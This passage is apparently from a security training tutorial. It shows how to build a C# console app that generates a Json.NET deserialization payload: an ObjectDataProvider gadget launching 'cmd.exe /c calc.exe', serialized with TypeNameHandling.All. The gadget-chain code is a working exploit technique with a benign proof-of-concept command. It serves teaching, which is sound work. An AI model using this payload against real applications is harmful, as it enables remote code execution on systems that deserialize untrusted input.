 ![image](8HA6ROlC4Z6W.png)

With `Visual Studio` installed, we can open it and create a new `Console App (.NET Framework)`.

![image](kJn2Uqo10qj8.png)

We can reuse the code from the previous section to base our `ObjectDataProvider` object on.

```csharp
using System.Windows.Data;

namespace RememberMeExploit
{
    internal class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.ObjectType = typeof(System.Diagnostics.Process);
            odp.MethodParameters.Add("C:\\Windows\\System32\\cmd.exe");
            odp.MethodParameters.Add("/c calc.exe");
            odp.MethodName = "Start";
        }
    }
}

```

There will be an error regarding `ObjectDataProvider`. Visual Studio will not reference the necessary namespace by itself for this class, so it is necessary to hover over it, select `Show potential fixes` and then select `using System.Windows.Data; (from PresentationFramework)`

![image](hyvZCq1iUdU0.png)

Once that's cleared up, we can add the following lines to serialize the object with `Json.NET` and print it out to the console.

```csharp
JsonSerializerSettings settings = new JsonSerializerSettings()
{
    TypeNameHandling = TypeNameHandling.All
};
string json = JsonConvert.SerializeObject(odp, settings);
Console.WriteLine(json);

```

There will be another error, because `Json.NET` is not an official `Microsoft` package and is therefore not installed by default. If you are using your own Windows VM for this module, you may simply head down to the `Package Manager Console` and run the command `Install-Package Newtonsoft.Json` to install it.

```powershell
Install-Package Newtonsoft.Json

```
